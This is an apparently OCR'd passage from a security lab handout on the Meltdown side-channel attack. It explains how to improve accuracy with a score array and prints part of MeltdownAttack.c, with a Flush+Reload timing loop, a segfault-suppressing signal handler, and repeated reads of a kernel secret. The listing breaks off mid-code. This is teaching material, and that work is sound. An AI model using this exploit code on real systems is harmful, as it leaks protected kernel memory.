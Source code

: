 Even with the optimization in the previous task, we may still not be able get the secret data every time:
sometimes, our attack produces the correct secret value, but sometimes, our attack fails to identify any value
or identifies a wrong value. To improve the accuracy, we can use a statistical technique. The idea is create
a score array of size 256, one element for each possible secret value. We then run our attack for multiple
times. Each time, if our attack program says thatkis the secret (this result may be false), we add 1 to
`scores[k]`. After running the attack for many times, we use the value `k` with the highest score as our
final estimation of the secret. This will produce a much reliable estimation than the one based on a single
run. The revised code is shown in the following.

- Listing 7:MeltdownAttack.c

```
static int scores[256];

void reloadSideChannelImproved()
{
  int i;
  volatile uint8_t *addr;
  register uint64_t time1, time2;
  int junk = 0;
  for (i = 0; i < 256; i++) {
    addr = &array[i *4096 + DELTA];
    time1 = __rdtscp(&junk);
    junk = *addr;
    time2 = __rdtscp(&junk) - time1;
    if (time2 <= CACHE_HIT_THRESHOLD)
      scores[i]++; /*if cache hit, add 1 for this value */
}
}

// Signal handler
static sigjmp_buf jbuf;
static void catch_segv() { siglongjmp(jbuf, 1); }

int main()
{
int i, j, ret = 0;

// Register signal handler
signal(SIGSEGV, catch_segv);

int fd = open("/proc/secret_data", O_RDONLY);
if (fd < 0) {
perror("open");
return -1;
}

memset(scores, 0, sizeof(scores));
flushSideChannel();

// Retry 1000 times on the same address.
for (i = 0; i < 1000; i++) {
  ret = pread(fd, NULL, 0, 0);
  if (ret < 0) {
    perror("pread");
    break;
}

```